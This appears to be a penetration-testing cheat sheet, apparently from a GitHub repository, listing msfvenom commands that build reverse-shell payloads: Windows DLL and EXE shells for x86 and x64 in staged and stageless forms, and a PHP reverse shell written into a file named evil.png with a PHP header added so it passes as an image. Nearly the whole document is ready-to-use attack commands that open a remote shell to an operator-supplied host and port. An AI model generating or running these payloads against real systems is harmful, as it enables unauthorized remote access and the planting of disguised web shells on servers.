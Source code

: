 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

- dll

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll LHOST=<IP> LPORT=<PORT> -o xxx.dll
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=<IP> LPORT=<PORT> -o xxx.dll
```

- exe

Staged Payloads for Windows

x86

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell-x64.exe
```

Stageless Payloads for Windows(try first)

x86

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell-x64.exe
```

### :open_file_folder: PHP

```
msfvenom -p php/reverse_php LHOST=<local ip> LPORT=<local port> -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png 
```
